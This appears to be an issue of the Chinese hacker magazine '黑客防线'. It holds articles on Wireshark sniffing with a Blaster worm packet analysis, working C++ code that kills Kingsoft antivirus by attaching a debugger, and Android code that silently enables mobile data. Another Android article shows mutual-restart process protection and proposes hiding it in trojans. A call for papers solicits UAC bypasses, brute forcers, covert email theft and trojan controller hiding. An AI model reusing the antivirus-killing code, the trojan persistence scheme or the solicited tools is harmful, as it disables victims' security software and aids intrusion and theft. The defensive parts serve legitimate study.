在以太网中，信息一般会被分解成易管理的数据块，这些数据块称之为数据包，而且每个数据包有一个头，包含地址与源计算机的地址。因为许多计算机可能会共享一个以太网段，所以每个计算机一定要有唯一的一个标识符，且要硬件编码到 NIC 上。在 Windows NT、Windows 2000、Windows XP 与 Windows 2003 操作系统中，都可在命令行下输入 `ipconfig /all` 查看 MAC 地址，MAC 地址将会列在“Physical Address”字段后。

与网络嗅探有关的硬件主要包括网卡、网线探针、集线器与交换机。以交换机为例，它维护着所连接计算机的 MAC 地址和交换机本身对应端口的一个关系列表。这样，当一个交换机接收到数据包时，它不会盲目地发送给所有的计算机。它会先查找数据包的头部来获得目标 MAC 地址，接着把数据包推进到该 MAC 地址对应的特定端口。这样，就把冲突域缩小为一个单独的端口了（如图 2 所示）。
图 2 交换机冲突域

如果工作在使用交换机的网络上，那该如何执行正当的网络分析呢？很幸运的是，大部分交换机与路由器提供了端口映射机制。为了映射端口，必须配置交换机，使其可以从一个希望映射的端口复制网络流量到所连接的端口。例如图 3 所示，就映射了交换机端口 1 的所有网络流量到端口 5，这样，网络分析器就可以在端口 5 查看发送到计算机 A 与计算机 A 发送出去的所有网络流量了。有时候，管理员会将交换机的上行端口进行端口映射，这样就能够查看出/入交换机所有端口的网络流量了。
图 3 交换机端口映射

### 3. 常用网络分析器使用及其原理

现在已经有各种各样的网络分析软件可以使用，如 Wireshark、Tcpdump、WinDump、Network General Sniffer、EtherPeek、Snoop、Snort、Dsniff、Ettercap、Analyzer、Packetyzer 等。本文将采用 Wireshark 进行辅助的网络分析，网站地址为 http://wiki.wireshark.org。Wireshark 是一个网络分析器，用来捕获数据包，并尽可能详细地显示数据包的内容。现今，Wireshark 可能是一个最好的开源网络分析器。在 Windows 平台上安装 Wireshark 非常容易，基本上是直接选择“Next（下一步）”按钮即可。

- **1）捕获数据包**

安装结束后，执行菜单 [Capture] → [Interfaces...]，弹出网络接口选择界面，如图 4 所示。
图 4 选择网络接口的界面

此处选择第二个接口右边的 Start 按钮，即可开始捕获数据包了，如图 5 所示。
图 5 捕获数据包的界面

执行菜单 [Capture] → [Stop]，将停止数据包捕获。

- **2）数据包统计**

执行菜单 [Statistic] → [Summary]，将弹出统计界面，如图 6 所示。
图 6 数据包统计的界面

执行菜单 [File] → [Save As...] 可将所捕获的数据包存储到一个文件中。

执行菜单 [File] → [Open...] 可将存储到文件中的数据包回放显示出来。

### 3）数据包过滤

在主界面的过滤器（Filter）设置栏中可设置数据包显示与捕获的过滤条件。点击 `Expression...` 按钮，弹出过滤器设置对话框，如图 7 所示。
图 7 过滤器设置对话框

在此以捕获与显示 IP 源地址为 192.168.0.15 的数据包为例，设置过滤器，如图 8 所示。
图 8 设置过滤器

设置过滤器后点击“OK”按钮，Wireshark 将回到主界面，注意在过滤器栏中出现了 `ip.src == 192.168.0.15` 的过滤表达式，如图 9 所示。
图 9 设置过滤器后的界面

设置过滤器后，过滤器并没有立即应用，需要点击“Apply”按钮才能实际应用，过滤后的结果如图 10 所示。
图 10 应用过滤器后的结果

如果对过滤的表达式较熟悉，也可以在主界面的过滤器（Filter）设置栏中直接输入过滤表达式进行过滤设置。

在了解了网络分析器的工作原理之后，大家应该认识到网络分析器（嗅探器）并不是专为网络攻击、黑客入侵而开发的。事实上，由于网络分析器具有检查低层传输数据包的能力，因此我们可以很方便地使用它们来对网络进行诊断，但同时这种能力对网络安全也具有很大威胁性。

## 黑客如何使用网络分析器（嗅探器）

很明显，如果嗅探器被心怀恶意的人使用，那么将会对网络安全构成严重威胁。比如，网络入侵者会使用嗅探的方式获取用户的秘密信息。以非法的方式使用嗅探器攻击他人，被称为被动的攻击，因为嗅探器并不会直接与网络上任何其他系统相互作用或连接，它的这种被动特性使其很难被检测出来。同时，嗅探器也能通过安装在网络中的某台计算机上，来达到主动攻击的泄密目的。

### 1. 入侵思路分析

为了嗅探，入侵者首先会获取感兴趣系统的通信网线的访问权，这意味着要在同一共享网段上或在通信路径之间的网线某处接入探针。即使入侵者不与目标系统或通信访问点物理接触，他仍然有方法嗅探到网络流量，具体包括如下方式：

- 闯入一部目标计算机中且安装远程嗅探器。
- 闯入一个通信访问点，比如一个因特网服务提供商（ISP）系统中，安装嗅探软件。
- 在已经装入嗅探软件的 ISP 上定位一个系统。
- 使用社会工程学获得对一个 ISP 的直接访问，安装一个数据包嗅探器。
- 在目标计算机组织或 ISP 内部有一个同谋者，并且他在那儿已经安装了嗅探器。
- 重定向或复制通信，使通信路径中包含入侵者的计算机。

入侵者通常会把嗅探程序配置成能检测特定事情（如输入密码）的状态，在其嗅探到相关信息后，或发送给入侵者，或储存起来，供入侵者稍后取回。易受该类型程序攻击的协议包括 Telnet、文件传送协议（FTP）、第 3 版邮局协议（POP3）、网际报文存取协议（IMAP）、简单邮件传输协议（SMTP）、超文本传输协议（HTTP）、远程登录（rlogin）、简单网络管理协议（SNMP）等。

大多数嗅探程序都包含了类似 rootkit 的工具。该工具在泄密系统中极具代表性，它是一种奇特的程序，具有隐身功能：无论静止时（作为文件存在），还是活动时（作为进程存在），都不会被察觉。换句话说，这种程序可能一直存在于我们的计算机中，但我们却浑然不知，这一功能正是许多人梦寐以求的——不论是黑客，还是取证人员。黑客可以在入侵后植入 rootkit，秘密地窥探敏感信息，或等待时机，伺机而动；取证人员也可以利用 rootkit 实时监控嫌疑人员的不法行为，它不仅能搜集证据，还有利于及时采取行动。

实际上，rootkit 是一个特洛伊程序集，在一个受控的系统上它会替换一些合法的命令（例如 `ps`、`ifconfig`、`ls` 等就是一些常见的被替换命令），以避免被检测到。同时 rootkit 还会安装一些额外的软件，如 sniffers 等。rootkits 就是通过替换命令和使用、并清除日志条目等来掩盖入侵者的踪迹的。同时入侵者还可安装其他的程序，像嗅探器、键盘记录器等后门软件。

### 2. 网络分析工具的主要功能剖析

网络分析软件工具一般由图 11 所示的基本功能组成，当然对于要求较高的网络分析工具还要添加复杂的协议解析功能，有的还添加了专家诊断功能，但这些功能都是在图 1-10 这些基本功能之上所进行的扩展，本文中就不重点介绍了。
图 11 网络分析工具的重要功能框图

从图 11 可知，一个网络分析工具首先需要从系统网络适配器列表中选择合适的适配器，接着需要打开所选的适配器。这样就可以在该适配器上执行数据包发送、对过滤后的数据包执行数据捕获或统计工作了，同时，还可以对捕获的数据包进行文件存储。执行结束后就可以关闭对应的网络适配器了，对于存储的数据包文件可单独执行文件打开操作，如果需要把文件中的数据包发送到网络上，那也就需要执行适配器的相关操作了。

在这些功能的实现上，对于一个优秀的网络分析工具来说，性能是关键。通常，类似于 Wireshark 之类的网络分析器，都会直接调用底层库（Windows 平台下为 WinPcap 库，Linux 平台下为 libpcap 库）来实现这些功能。这样，性能问题就由底层库来负责处理了，而 Wireshark 主要负责协议解析与图形界面显示相关的工作。图 12 展示了在 Windows 平台下 Wireshark 与 WinPcap 的依赖关系。
图 12 Windows 平台上 Wireshark 与 WinPcap 的关系

### 3. 案例：使用嗅探器分析冲击波蠕虫

要想详细了解嗅探的概念，最容易的方法就是在实际应用中看一看具体的实例。

### 问题

如果每次启动电脑，就接收到一个消息，告诉你 60 秒内要重启计算机。只要时间超过 60 秒，计算机就会自动关机，这将导致你每次使用计算机不会超过 60 秒。

### 嗅探数据包

出现上述问题，很有可能是蠕虫或病毒造成的。任何时候，如果你怀疑一个病毒或蠕虫可能就是导致计算机出现问题的原因，直接在问题计算机上安装嗅探器并不是一个明智的选择。恶意软件经常会干扰嗅探器的正常工作，最好的办法是使用端口映射。数据包捕获的时机为：从问题计算机刚刚启动开始，到将要自己关机时结束。

### 数据包分析

所捕获的数据包如图 13 所示。此截图中记录了问题计算机与另一台计算机之间传输的几个 TCP 数据包。可在进行数据包捕获时，网络上并没有其他计算机活动，所以这里的网络行为是可疑的。
图 13 所捕获的数据包

识别病毒或蠕虫网络流量的一个较好方法是查看网络间的原始数据。我们来分析一下所捕获的每个数据包。第一个数据包看不出什么特别的，没有多少有用的信息，如图 14 所示。

```
0000  00 10 59 aa af 80 00 01 96 3c 3f a8 08 00 45 00 ...
0010  00 28 08 ed 40 00 7f 06 d9 ac 0a ea 00 ef 0a ea ...
0020  02 74 07 01 11 5c 76 be 16 50 cd 5a 82 b2 50 10 ...
0030  43 b2 59 73 00 00 00 00 00 00 00 00 ...
```

图14 第一个数据包的内容

接着看第二个数据包，发现其中有对 `C:\WINNT\System32` 目录的引用。这是一个很重要的系统目录，包含了许多加载和运行操作系统的文件。如果看见一个网络数据包引用这个目录，通常是存在问题的一个提示（如图15所示）。

```
0000  00 80 ad d1 84 d7 00 d0 59 aa af 80 08 00 45 00
0010  00 3c 00 3a 40 00 80 06 e1 4b 0a ea 02 74 0a ea
0020  00 ef 11 5c 07 01 cd 5a 82 b2 76 be 16 50 50 18
0030  fb db 73 31 00 00 0d 0a 43 3a 5c 57 49 4e 4e 54
0040  5c 73 79 73 74 65 6d 33 32 3e
```

图15 引用 `C:\WINNT\System32` 意味着可能访问系统文件

再来看第三个数据包，它没有提供什么有用的信息，但是第四个数据包显示的信息值得关注，如图16所示。

```
0000  00 d0 59 aa af 80 00 01 96 3c 3f a8 08 00 45 00
0010  00 3a 08 ef 40 00 7f 06 d9 98 0a ea 00 ef 0a ea
0020  02 74 07 01 11 5c 76 be 16 50 cd 5a 82 c6 50 18
0030  43 9e a0 4d 00 00 73 74 61 72 74 20 6d 73 62 6c
0040  61 73 74 2e 65 78 65 0a


```

图16 第四个数据包引用了 msblast.exe

其中，msblast.exe 就是冲击波蠕虫，这就是计算机出现问题的根源所在。

## 防止网络嗅探的安全措施

消除嗅探器并不是一件很困难的事情，通常可采取加密和网络分割的办法来防止嗅探器的攻击。

- 1. 加密

如果仅仅需要防止远程登录时用户账号和安全口令被截取，可以在主机上安装动态口令（One Time Password，OTP）系统。在使用 OTP 的系统中，用户在登录时会根据主机提出的一个迭代值和一个种子值计算出本次登录的口令。

如果需要保护电子邮件免遭窃取，可以对邮件使用 PGP 加密软件（PGP 是 Pretty Good Privacy 的简称，是一个加密软件系列），对该算法目前还没有找到比穷举算法更有效的破解办法。这两种办法实现起来较简单，可它们不能完全阻止监听者从网络上截取各种数据包的相关信息后，通过分析或是脱壳解密得到他想要的东西。

更加安全的方法是利用 SNP 和 SSH 系统。SNP 系统可以运行在很多操作系统上，它提供了一种安全的验证协议，使 TELNET、FTP、RLOGIN 等应用的用户账号和安全口令不再是以明文的方式传输。SNP 系统中所有的传输数据都是采用 DES 加密的，监听者只能看到一些乱码。SSH 是基于 C/S 模型的，标准的 SSH 服务端口为 22，SSH 采用 RSA 加密算法建立连接，验证过程结束后，所有的信息都采用 IDEA 技术加密，这是一种典型的强加密方式，适合于所有的通信。SSH 曾一度为加密安全通信的主要协议。如果网络系统中使用了 SSH，那么用户 ID 和口令被捕获的概率将大大降低。

- 2. 网络分割

通常人们所能接受的防止嗅探器攻击的办法是使用安全的网络拓扑结构。我们知道，网络广播的时候，信息包只能被同一网络地址段中的嗅探器捕获。所以可以利用网络分割的技术，进一步划分网络，减小嗅探器能够监听的范围，这样网络的其余部分就可免受嗅探器的攻击了。一般可以采用交换机来划分网段，并使用网桥或网络路由器来划分子网。实际上 PC 和工作站都可以配置成网桥或路由器，同一个网络地址段内最好都是互相可以信任的计算机。通过网络分割，安装了嗅探器的计算机仅仅能够捕获有限范围内计算机的信息流。如果发现了在某一网络地址段有嗅探器，也很容易确定是哪些人所设置的。

总之，网络分析是一把双刃剑。当网络、系统与安全的专业人员使用它处理网络故障或监视网络时，或许也正有网络入侵者为了达到非法目的在使用它。网络分析仅仅是一种技术，就像所有的技术一样，它也可以被用在好或坏的目的之上。通过对其攻击原理和防范措施进行了解之后，我们就能在实际工作中更加有的放矢，做好安全防范了。

## 自编调试器结束金山毒霸

文/图 李旭昇

一日闲来无事，在任务管理器中金山毒霸主进程（kxetray.exe）上点击右键，调试（Debug）。本以为一定会被禁止访问，没想到 VS 竟能成功附加！当然 VS 这个大块头要过好久才加载完毕。我随手关掉 VS，不料金山毒霸也跟着退出了，由此我想到可以利用调试器结束金山毒霸进程。
图1 在任务管理器中启动调试器，并附加到 kxetray.exe

我首先用 Windbg 进行测试，运行 Windbg，按 F6 并从进程列表中选择 kxetray.exe，点击确定之后成功附加。我首先尝试直接结束被调试进程，失败。这可能是有金山毒霸的自我保护，文雅的方法不奏效，干脆清零寄存器。我随手把 rsp、rip 等几个关键寄存器清零然后将 kxetray.exe 从调试器分离。后经测试，最简单的办法是附加后什么都不做直接关闭 Windbg，此时 Windows 的调试机制将自动结束被调试进程。

如果想要自己编程实现上述过程，我们需要实现一个最基本的——能够附加到正在运行的进程的调试器，简单来说代码只有两行：

```cpp
GetProcessIdByName(L"kxetray.exe", &dwPID);
DebugActiveProcess(dwPID);
```

然后我们对被调试进程不闻不问就可以将其解决，由进程名获得 PID 的方法非常简单，只需用 CreateToolhelp32Snapshot 创建进程快照并用 Process32First 和 Process32Next 遍历即可。感兴趣的读者可以参考源代码，这里不再赘述。DebugActiveProcess 是 Windows API，只有一个参数，就是进程的 PID。当然为了保证附加成功，我们希望获得 SE_DEBUG_NAME 权限。提权的过程也不复杂，我们学习一下 MSDN 中给出的代码：

```cpp
BOOL SetPrivilege(
    HANDLE hToken,    // access token handle
    LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
    BOOL bEnablePrivilege // to enable or disable privilege
)
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    if (!LookupPrivilegeValue(
            NULL,           // lookup privilege on local system
            lpszPrivilege,  // privilege to lookup
            &luid))         // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %u\n", GetLastError());
        return FALSE;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;

    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
            hToken,
            FALSE,
            &tp,
            sizeof(TOKEN_PRIVILEGES),
            (PTOKEN_PRIVILEGES)NULL,
            (PDWORD)NULL))
    {
        printf("AdjustTokenPrivileges error: %u\n", GetLastError());
        return FALSE;
    }

    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
    {
        printf("The token does not have the specified privilege. \n");
        return FALSE;
    }

    return TRUE;
}
```

想要获得 Debug 权限只需：

```cpp
BOOL EnableDebugPrivilege()
{
    HANDLE hToken = NULL;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
    {
        cout<<"Fail to Open current process token."<<endl;
        return FALSE;
    }
    return SetPrivilege(hToken, SE_DEBUG_NAME, TRUE);
}
```

我们的程序附加到目标进程后，只有自己退出后目标进程才会被结束。为了能够获得控制权，我们可以用前面提过的方法，清零寄存器并分离被调试进程。不过这种方法实现起来较为麻烦，我们采用一种变通的方法。在我们从程序附加到 kxetray.exe 后，在退出前再运行一次自身。第二次运行的程序会检测 kxetray.exe 是否已经退出。如果是，则给出提示。代码如下：

```cpp
int main(int argc,char** argv)
{
    if (!EnableDebugPrivilege())
    {
        cout<<"Fail to enable debug privilege."<<endl;
    }
    else
    {
        cout<<"Obtained debug privilege."<<endl;
    }
    Sleep(1000);
    DWORD dwPID = 0;
    if (!GetProcessIdByName(L"kxetray.exe", &dwPID))
    {
        cout<<"Target not found."<<endl
            <<"Do something you want here!"<<endl;
        getchar();
    }
    else
    {
        cout<<"Pid="<<dwPID<<endl;
    }
    if (!DebugActiveProcess(dwPID))
    {
        cout<<"Fail to attach to target..."<<endl;
        return FALSE;
    }
    else
    {
        cout<<"Attached to target. It will be killed as this process exits."<<endl;
        ShellExecuteA(NULL, "RunAs", argv[0], NULL, NULL, SW_SHOW);
    }
    //DebugActiveProcessStop(dwPID);
    return 0;
}
```

被注释掉的 DebugActiveProcessStop 函数用于分离被调试进程。如果读者决定采用“清零寄存器+分离被调试进程”的方法将会用到。

Windows 系统为调试提供了丰富的支持，有兴趣的读者可以尝试实现一款简单的调试器。有关内容可以参考张银奎的《软件调试》第 9、10 章和《Python 灰帽子》，内有大量的示例代码。本文演示了调试器两个最基本的功能：附加到已经启动的进程和从被调试进程分离，谨作抛砖引玉之用。

本文中的程序在 Win8.1+VS2013 下编译运行，金山毒霸为最新版本。本文提供的思路与代码仅供技术交流，不得用于非法用途。

（完）

## Android 系统进程保护浅析

文/图 马智超（Deserteagle） 欧阳潇琴

在 Android 系统中无论是木马也好，安全软件也好，都需要实时地在后台执行一些任务。如木马的话需要实时监控用户信息，但这些进程也可以被结束掉，木马进程可以，安全软件也可以。试想一下你有一个超级厉害的安全软件可以保护用户隐私，但是这时，一个人打开了你手机的进程管理器，强制结束掉了安全软件的进程，那么这个软件的一切功能都不复存在了。所以，现在我们浅析一下如何在 Android 系统中实现对指定进程的保护，使得他人在手机进程管理器中结束掉我们的进程几率变小，或者说，最大程度上不让其影响我们进程的执行。

### 实现方法分析

首先，我们需要简单了解一下 Android 进程的机制：Android 系统中，当一个应用的组件开始运行，系统会为这个应用启动一个进程，Android 中的进程是托管的，当系统进程空间紧张的时候，会依照优先级自动进行进程的回收。在网上了解到，Android 将进程分为 6 个等级，它们按优先级由高到低排列依次是：前台进程（FOREGROUND_APP）、可视进程（VISIBLE_APP）、次要服务进程（SECONDARY_SERVER）、后台进程（HIDDEN_APP）、内容供应节点（CONTENT_PROVIDER）、空进程（EMPTY_APP）。

通过百度，网上有很多种说法，但是实用性都不是很高，与我们要实现的目的有一定的差距。我们分别对其进行了尝试，首先说一下我们搜到的一些方法：

- 1. **提高进程优先级**  
  如后台操作采用 Service 形式，因为一个运行着 service 的进程比一个运行着后台 activity 的等级高；或者依赖于其他优先级高的进程，例如：一个 A 进程里的 service 被绑定到 B 进程里的组件上，进程 A 将总被认为至少和 B 进程一样重要。
- 2. **强制修改进程属性**  
  在程序中设置 `setPersistent(true)`，persistent 属性默认值是 false，但是像手机中一些系统应用，如电话这样的程序就被设置为 true，被 `android:persistent` 修饰的应用会在系统启动之后被 AM 启动，设置为 true 可以在一定程度上保护进程。

这样的方法在一定程度上可以保护进程，但是我们没有花太多时间去研究过，感觉实用性应该不是太高。于是我们想到一个简便的方法：采用两个进程互相监控，互相保护，任何一个进程被强制结束了，另一个就马上把它开启起来，思路就是这样。

首先我们写了两个程序，每个程序都是一个简单的界面，没有什么其他特殊的功能，只是在进程中有对彼此进程的监控，核心代码如下：

```java
if(!isRunning(this.getApplicationContext(), "com.example.listener2")){
    // 这些代码是启动另外的一个应用程序的主 Activity，当然也可以启动任意一个 Activity
    ComponentName componetName = new ComponentName(
        // 这个是另外一个应用程序的包名
        "com.example.listener2",
        // 这个参数是要启动的 Activity
        "com.example.listener2.MainActivity");

    try {
        Intent intent = new Intent();
        intent.setComponent(componetName);
        startActivity(intent);
    } catch (Exception e) {
        Toast.makeText(getApplicationContext(), "没有找到该应用程序！", Toast.LENGTH_SHORT).show();
    }

} else {
    //Toast.makeText(getApplicationContext(), "该应用程序已启动", Toast.LENGTH_SHORT).show();
}

/**
 * 判断指定包名的进程是否运行
 * @param context
 * @param packageName 指定包名
 * @return 是否运行
 */
public static boolean isRunning(Context context, String packageName){
    ActivityManager am = (ActivityManager) context.getSystemService(ACTIVITY_SERVICE);
    List<RunningAppProcessInfo> infos = am.getRunningAppProcesses();
    for(RunningAppProcessInfo rapi : infos){
        if(rapi.processName.equals(packageName))
            return true;
    }
    return false;
}


```

#### Android 远程监控技术

### 功能测试

先是安装好两个 APK，真正应用的时候可以伪装成系统文件，也可以不存在桌面图标，隐藏后其实用性就更加显著了，如图 1 所示。
图 1

图 1 是进程运行后的界面，在进程管理器中结束掉（所谓任务管理器就是在设置-管理-应用里，可以结束掉正在运行的应用），如图 2 所示，之后程序马上就被重启了，如图 3 所示。
图 2

图3

感觉这个挺实用的，在木马中我可以悄悄安装两个 APK，将另一个伪装成系统的软件，每次开机启动，这样就不用担心进程被杀掉了。经过测试，可以实现两个进程的互相监控、互相保护，在一定程度上起到了防止在任务管理器中被强制结束的作用。本文提供的其他方法，因为自己本身没有太多时间去做，因此没做太多的尝试。

经过测试此种方法，可以实现对指定进程的保护。当你在任务管理器中结束掉指定进程，另一个进程监控到会立刻将其开启。两个 APK 互相保护，使得指定进程要执行的功能不被干扰。

## Android 系统一次恶意软件攻防研究

文/图 马智超（DesertEagle） 欧阳潇琴

之前下载了个运行于 Android 系统的游戏玩玩，这个游戏是我通过 360 手机助手找到的，下载安装后经安全软件检测后提示不是木马可以放心使用。但是在 Android 系统上写个游戏木马，让其不被查杀出来也是很容易的，因为木马可以千变万化，写木马的人又邪恶又狡猾。

事实上我每次玩手机游戏前都会把无线网关闭，玩完退出之后清理后台进程，来防止我安装的游戏真的是个木马或者绑定了木马，这次我依旧如此，但是当我玩了很长时间退出游戏后，意外地发现数据连接早就被打开了，结果我手机自动下载了很多垃圾软件，而且还浪费了好多手机流量，导致我这月的手机费大增。

这个木马太没节操了，我发现当我的手机打开无线网络的时候系统会自动弹出窗口，提示无线网络已经打开，但是打开数据连接的时候却是没有任何提示。我发现这是个很严重的问题，也许只有某些手机有这个问题，我没测试过其他的手机。但这个恶意游戏软件就是利用了这一点来祸害人。于是我对这一点进行了研究，这就好比把一个屋子里唯一的门给堵上了，这样恶意软件再怎么邪恶也无可奈何了，对其研究也是为了以后再安装什么软件的时候更加安心吧。

#### Android 远程监控技术

### 原理分析

首先来分析一下该木马是如何自动打开数据连接的：Android 系统的软件如果想强制打开数据连接是需要权限的，因为需要进行网络连接，所以需要以下权限：

```xml
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>
<uses-permission android:name="android.permission.CHANGE_NETWORK_STATE"/>
<uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>
```

我们需要认识一个类 ConnectivityManager，它主要管理和网络连接相关的操作，所以我们可以通过这个类来实现打开手机流量的功能，当然也能实现监控手机网络状态的功能，核心代码如下：

```java
// 取得 ConnectivityManager 类
conMgrClass = Class.forName(conMgr.getClass().getName());
// 取得 ConnectivityManager 类中的对象 mService
iConMgrField = conMgrClass.getDeclaredField("mService");
// 设置 mService 可访问
iConMgrField.setAccessible(true);
// 取得 mService 的实例化类 IConnectivityManager
iConMgr = iConMgrField.get(conMgr);
// 取得 IConnectivityManager 类
iConMgrClass = Class.forName(iConMgr.getClass().getName());
// 取得 IConnectivityManager 类中的 setMobileDataEnabled(boolean) 方法
setMobileDataEnabledMethod =
iConMgrClass.getDeclaredMethod("setMobileDataEnabled", Boolean.TYPE);
// 设置 setMobileDataEnabled 方法可访问
setMobileDataEnabledMethod.setAccessible(true);
// 调用 setMobileDataEnabled 方法
setMobileDataEnabledMethod.invoke(iConMgr, enabled);
```

这样通过以上的操作我们就可以实现打开手机流量了，网上还有很多种方法，这里不做总结了。

然后根据它的实现过程或者方法我们就可以分析一下如何防御这种强制打开流量的恶意行为，我认为可以从两方面入手：

- 当软件被安装后实现对应用程序权限的扫描，看是否有可疑权限（就是以上提到的权限）。但这种方法只是一个不太靠谱的保护伞，因为它的判别标准不够精准，且不能实现实时防护，有一种宁可错杀一个好人也不放过一个坏人的感觉。
- 对所有软件的这种恶意行为进行实时监控，实现实时保护。这里还是要用到 ConnectivityManager，因为它可以管理网络连接，然后我们用一个逻辑判断就好了。我的手机是移动手机，所以只对移动手机的流量开启进行了监控。核心代码如下：

```java
ConnectivityManager connectMgr = (ConnectivityManager) context.getSystemService(Context.CONNECTIVITY_SERVICE);

NetworkInfo mobNetInfo = connectMgr.getNetworkInfo(ConnectivityManager.TYPE_MOBILE);
NetworkInfo wifiNetInfo = connectMgr.getNetworkInfo(ConnectivityManager.TYPE_WIFI);

if (mobNetInfo.isConnected() && !wifiNetInfo.isConnected()) {
    return "app_test-->当前正在使用2G/3G/4G网络";
} else if (!mobNetInfo.isConnected() && wifiNetInfo.isConnected()) {
    return "当前正在使用wifi网络";
}
return "app_test-->当前无网络连接";


```

### 功能测试

如图1所示，可以看到自己写的 isOpen 监控程序已经在后台开启，图2是数据连接状态，一开始是未打开的。

图1

图2

图3

图4

如图3是我们仿照恶意程序的软件，实现强制打开手机流量的功能。为了测试，在 Activity 中直接手动点开，要想实现后台直接写到服务中就可以了。图4是监控到的弹窗提示，主要就是为了测试是否能在其他的程序窗口前实现弹窗提示，或者改成震动提示或语音提示会更好，这样更容易被手机用户察觉到。

监控程序只要再加工加工就更加实用了，对待恶意软件的入侵就多了一层非常实用的保护伞。这是对于我自己需求而写的软件，因为最近一直很忙，所以没有时间去详细分析那个恶意软件了，这样简单弄一下以后再安装什么程序心里就不用担心了。

（完）

### 2014 年第 9 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 9 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

### 3. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

### 4. Windows 7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控）屏幕保护已启动，本地获取 Windows 7 屏幕保护密码的方法。

### 5. 暴力破解 3389 远程桌面密码

要求：

- 针对 Windows 3389 远程桌面实现暴力破解密码；
- 读取指定的用户名和密码字典文件；
- 采用多线程；
- 所有函数都必须判断错误值；
- 使用 VC++2008 编译工具实现，控制台程序；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 支持 Windows XP/2003/7/2008。

### 6. WEB 服务器批量扫描破解

- 针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255
- 针对目标 Web 服务器扫描要求
  - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：
    - Tomcat
    - Weblogic
    - Jboss
    - Apache
    - JOnAS
    - WebSphere
    - Lotus Server
    - IIS(Webdav)
    - Axis2
    - Coldfusion
    - Monkey HTTPD
    - Nginx
- 针对目标 Web 服务器后台扫描
  - 针对目标进行后台地址搜索。
- 针对目标 Web 后台密码破解
  - 搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 7. 木马控制端 IP 地址隐藏

要求：

- 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 8. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令账号密码暴力破解。

要求：

- 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 根据抓取提交账号密码的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账号密码可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账号密码，如用户为 admin，密码可自动填充为域名；用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd、abcd abcd123 或 abcd abcd123456 等简单账号密码；
- 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账号密码字典可自定义设置等。

### 9. 编写端口扫描器

要求：

- 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 扫描方式采用多线程，并能设置线程数；
- 将功能编写成 DLL，导出功能函数；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 尽量多做出错异常处理，以防程序意外崩溃；
- 使用 VC++2008 编译工具编写；
- 支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- Windows UAC 安全设置为最高级别；
- 系统补丁打到最新；
- 支持 32 位和 64 位系统。

### 2014 年征稿启事

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

